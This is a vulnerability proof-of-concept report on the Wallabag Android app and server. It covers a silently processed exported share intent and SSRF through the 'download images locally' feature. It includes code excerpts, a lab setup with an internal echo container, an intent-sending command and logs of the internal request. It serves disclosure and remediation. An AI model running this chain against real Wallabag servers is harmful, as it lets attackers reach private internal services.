


# Wallabag Android Share + SSRF via Images — PoC Report

## Summary
- The Android app exposes an exported share handler (`AddUrlProxyActivity`) that auto‑processes shared text URLs without user confirmation (silent add).
- When the server setting “Download images locally” is enabled, the backend fetches `` URLs using a plain HTTP client (not the SSRF‑protected one). An attacker can embed internal URLs in an external page and coerce the backend to access private/internal services (SSRF via images).
- We demonstrate both behaviors with a minimal PoC. Main article SSRF remains mitigated by the existing plugin; the image path is the pivot when that feature is enabled.

## Affected Components (code references)
- Android
  - Manifest and handler: `apps/wallabag/codebase/app/src/main/AndroidManifest.xml` → `fr.gaulupeau.apps.Poche.ui.AddUrlProxyActivity` handles `ACTION_SEND` (`text/plain`).
  - Auto‑process: `apps/wallabag/codebase/app/src/main/java/fr/gaulupeau/apps/Poche/ui/AddUrlProxyActivity.java` extracts the URL and calls `OperationsHelper.addArticle(...)` immediately (no confirmation by default).
- Server
  - Image downloads: `apps/wallabag/backend/src/Event/Subscriber/DownloadImagesSubscriber.php` and `apps/wallabag/backend/src/Helper/DownloadImages.php` (uses `HttpClientInterface` directly).
  - Main article fetch (SSRF‑protected): `Graby\Graby` with PSR‑18 client including `ServerSideRequestForgeryProtectionPlugin`.

## Code Snippets (annotated)

### Android — Exported share handler and auto‑execution

`apps/wallabag/codebase/app/src/main/AndroidManifest.xml`

```xml
<activity
    android:name="fr.gaulupeau.apps.Poche.ui.AddUrlProxyActivity"
    android:exported="true"> <!-- exported: any app can invoke via ACTION_SEND -->
    <intent-filter android:label="@string/app_name">
        <action android:name="android.intent.action.SEND" />
        <category android:name="android.intent.category.DEFAULT" />
        <data android:mimeType="text/plain" />
    </intent-filter>
 </activity>
```

`apps/wallabag/codebase/app/src/main/java/fr/gaulupeau/apps/Poche/ui/AddUrlProxyActivity.java`

```java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    Intent intent = getIntent();
    final String extraText = intent.getStringExtra(Intent.EXTRA_TEXT);

    // Parses first URL from shared text
    Matcher matcher;
    if (extraText != null && !extraText.isEmpty()
            && (matcher = Patterns.WEB_URL.matcher(extraText)).find()) {
        foundUrl = matcher.group();
    } else {
        // shows error & finish
        return;
    }

    // No explicit user confirmation here before enqueuing work
    // Immediately enqueue addArticle (silent add) → backend sync
    OperationsHelper.addArticle(this, foundUrl, originUrl);
}
```

### Server — Image downloads fetch internal URLs (when enabled)

`apps/wallabag/backend/src/Event/Subscriber/DownloadImagesSubscriber.php`

```php
public function onEntrySaved(EntrySavedEvent $event)
{
    if (!$this->enabled) { // enabled via “download_images_enabled” internal setting
        return;
    }
    $entry = $event->getEntry();
    // Rewrites content by downloading each 
    $html = $this->downloadImages->processHtml(
        $entry->getId(), $entry->getContent(), $entry->getUrl()
    );
    if ($html !== false) { $entry->setContent($html); }
}
```

`apps/wallabag/backend/src/Helper/DownloadImages.php`
```php
public function processSingleImage($entryId, $imagePath, $url, $relativePath = null)
{
    $absolutePath = $this->getAbsoluteLink($url, $imagePath); // may be http://127.0.0.1 or internal host - PoC with ssrf-echo container
    if ($absolutePath === false) { return false; }

    // Fetch via HttpClientInterface (plain client) – SSRF plugin not applied here
    try { $res = $this->client->request(Request::METHOD_GET, $absolutePath); }
    catch (\Exception $e) { return false; }
    // … store/rewrite image
}
```

### Contrast — Main article fetch is SSRF‑protected

`vendor/j0k3r/graby/src/Extractor/HttpClient.php` (excerpt)
```php
$this->client = new HttpMethodsClient(
    new PluginClient(
        $client,
        [
            new ServerSideRequestForgeryProtectionPlugin(), // blocks private/loopback
            new RedirectPlugin(),
            // …
        ]
    ),
    // …
);
```

## Impact
- Android: Any app can silently add URLs to the user’s reading list (abuse/DoS, unwanted content, phishing links).
- Server: With image downloads enabled, the backend fetches attacker‑chosen internal URLs found in `` tags, enabling SSRF into private networks. Data exposure depends on what the internal service returns.

## Preconditions
- Android app is logged in to Wallabag.
- Server “Download images locally” is ON (Internal settings). (For SSRF)
- Internal target is reachable from the server/container (e.g., same Docker network).

## PoC Overview
1) Host an external page containing ``.
2) Use the exported Android share handler to add that external page URL (no user confirmation).
3) Server saves entry; the image downloader fetches that internal URL.
4) An internal echo server container (`ssrf-echo`) logs the backend GET, showing method/path/headers and server IP.

## Reproduction
- Note - add this in apps/wallabag/docker-compose.yml
    ```yaml
        ssrf-echo:
        container_name: ssrf-echo
        image: mendhak/http-https-echo:32
        environment:
            - HTTP_PORT=8080
        networks:
            - private_net
        restart: unless-stopped
    ```
- Setup Emulator, App backend, Login, etc.
- Enable Download images locally settings (for SSRF). This can be done in localhost:8080 -> settings Internal Settings -> Scroll Down; 0 -> 1

- Publish external HTML with `` or use [gist](https://gist.githubusercontent.com/waihankan/86122ef70f6093dc4a2400cde7d57153/raw/0295255aaee477e40fd435bec2ce52c426cba4b3/test.html)
- Run exploit
    ```bash
    # the adb command reprensents the malicious app's intent
    # the article that we're adding to wallabags include an image with 
    python poc_wallabag/send_share_intent.py "https://gist.githubusercontent.com/waihankan/86122ef70f6093dc4a2400cde7d57153/raw/fb5ffbac54e51d22a04168df33b434f257157e27/test.html"
    ```
- Verification:
  - check docker container `ssrf-echo` log.

## Root Cause
- Android: Exported share handler auto‑executes shared URLs without explicit user confirmation.
- Server: Image download path uses a plain HTTP client (no SSRF plugin), unlike the protected main article fetch path.

## What Works vs. What’s Blocked
- Works:
  - Silent injection via Android share.
  - SSRF via images when “Download images locally” is enabled.
- Blocked:
  - Main article SSRF to loopback/private targets is blocked by the SSRF plugin and yields fallback content (no internal request).

## Recommendations
- Android:
  - Add a user confirmation screen for shared URLs; consider throttling to mitigate spam/DoS.
- Server:
  - Route `DownloadImages` traffic through the same SSRF‑protected client as Graby (or equivalent IP filtering for IPv4/IPv6 private/loopback ranges), or adopt a host allowlist for image downloads.


---

## Screenshots
Article is injected from a malicious app.



### `ssrf-echo` Container log
```json
{
    "path": "/ping",
    "headers": {
        "host": "ssrf-echo:8080",
        "user-agent": "Guzzle/5.3.1 curl/8.14.1 PHP/8.1.32"
    },
    "method": "GET",
    "body": "",
    "fresh": false,
    "hostname": "ssrf-echo",
    "ip": "::ffff:172.18.0.5",      <- Wallabag's Server
    "ips": [],
    "protocol": "http",
    "query": {
        "ts": "TOKEN"
    },
    "subdomains": [],
    "xhr": false,
    "os": {
        "hostname": "31816b854271"
    },
    "connection": {}
}
::ffff:172.18.0.5 - - [22/Nov/2025:08:19:16 +0000] "GET /ping?ts=TOKEN HTTP/1.1" 200 407 "-" "Guzzle/5.3.1 curl/8.14.1 PHP/8.1.32"

{
    "path": "/ping",
    "headers": {
        "host": "ssrf-echo:8080",
        "user-agent": "Guzzle/5.3.1 curl/8.14.1 PHP/8.1.32"
    },
    "method": "GET",
    "body": "",
    "fresh": false,
    "hostname": "ssrf-echo",
    "ip": "::ffff:172.18.0.5",      <- Wallabag's Server
    "ips": [],
    "protocol": "http",
    "query": {
        "ts": "TOKEN"
    },
    "subdomains": [],
    "xhr": false,
    "os": {
        "hostname": "31816b854271"
    },
    "connection": {}
}
::ffff:172.18.0.5 - - [22/Nov/2025:08:19:16 +0000] "GET /ping?ts=TOKEN HTTP/1.1" 200 407 "-" "Guzzle/5.3.1 curl/8.14.1 PHP/8.1.32"
```

### Containers IP
```bash
docker inspect -f '{{.Name}} {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' wallabag-redis-1 wallabag-db-1 wallabag ssrf-echo
/wallabag-redis-1 172.18.0.4
/wallabag-db-1 172.18.0.2
/wallabag 172.18.0.5
/ssrf-echo 172.18.0.3
```